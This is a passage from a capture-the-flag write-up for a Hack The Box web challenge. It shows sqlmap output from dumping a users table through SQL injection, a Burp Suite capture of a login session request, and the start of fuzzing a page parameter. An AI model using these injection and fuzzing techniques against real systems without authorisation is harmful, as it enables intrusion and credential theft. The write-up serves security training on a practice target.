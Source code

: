 ```

[15:25:30] [INFO] table 'cartographer.users' dumped to CSV file '/home/fortyfunbobby/.sqlmap/output/88.198.233.174/dump/cartographer/users.csv'
[15:25:30] [INFO] fetched data logged to text files under '/home/fortyfunbobby/.sqlmap/output/88.198.233.174'

[*] shutting down at 15:25:30
```

Nice.. that IS a very nice password.

### BURPSUITE - ANALYZING LOGIN
Using our newly found password, we are able to get past the login page and are
presented with a `Cartographer Is Still Under Construction!` page.

```
http://88.198.233.174:35130/panel.php?info=home
```
<img src="https://github.com/fortyfunbobby/security-projects/blob/master/hackthebox/web/cartographer/login-success.jpg" width=200px/>

Analyzing the server communication with Burpsuite, we see a cookie gets set
with `PHPSESSID=goa9r4gatjedo6df8uktgpclp7`.

```
<REQUEST>
GET /panel.php?info=home HTTP/1.1
Host: 88.198.233.174:35130
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://88.198.233.174:35130/
Cookie: PHPSESSID=goa9r4gatjedo6df8uktgpclp7
Connection: close
Upgrade-Insecure-Requests: 1
</REQUEST>
```

Tried to see if the PHPSESSID value had any meaning, but didn't get any where..

### WFUZZ

Observing that after successful login we land at a page that has `panel.php`
with parameter `info` and the value `home`.. we can try inputing random values
to see what happens.

```
http://88.198.233.174:35130/panel.php?info=foo
```

<img src="https://github.com/fortyfunbobby/security-projects/blob/master/hackthebox/web/cartographer/login-nofound.jpg" width=200px/>

Interesting, we get a `Not Found` page.. perhaps we can try to find some value
which results in a valid page?
